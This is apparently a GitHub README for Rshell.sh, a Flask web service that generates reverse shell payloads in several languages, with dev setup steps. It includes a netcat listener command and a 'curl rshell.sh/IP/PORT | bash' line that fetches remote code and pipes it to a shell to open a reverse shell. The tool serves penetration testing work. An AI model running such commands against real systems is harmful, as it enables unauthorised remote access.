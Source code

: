 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone github.com:BlueSquare23/Rshell.sh.git
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv				# Virtual Env Optional
source venv/bin/activate	# Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

